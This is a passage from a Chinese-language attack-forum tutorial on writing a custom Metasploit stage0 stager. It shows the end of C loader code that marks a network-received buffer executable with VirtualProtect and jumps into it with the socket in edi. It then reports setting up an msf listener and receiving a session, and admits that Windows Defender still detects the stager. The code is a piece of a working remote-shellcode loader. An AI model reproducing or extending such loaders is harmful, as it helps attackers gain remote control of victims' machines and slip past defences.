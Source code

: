 ```php
    VirtualProtect(recbuf2, recvSize2, PAGE_EXECUTE_READWRITE, &recvSize);
    __asm
    {
        mov edi, sock;
        jmp recbuf2;
    }
}
```

验证结果  
msf设置好监听，配置如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-325f7289b131572d863030a3fd5645a9c9d86313.png)  
生成并执行我们写的stage，收到会话。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f63858cd4a6886ee45034bd28f6c8956fc37c90f.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a928be773a645c61a735dc175686323b6104ad7f.png)

0x03 后记
=======

如果不出意外的话，本文应该快结束了，主要内容讲了msf上线原理和如何编写stage0阶段的代码，来加载stage1也就是真正的载荷。

windows defender也测试了一下但是没过去，我好菜，呜呜呜.....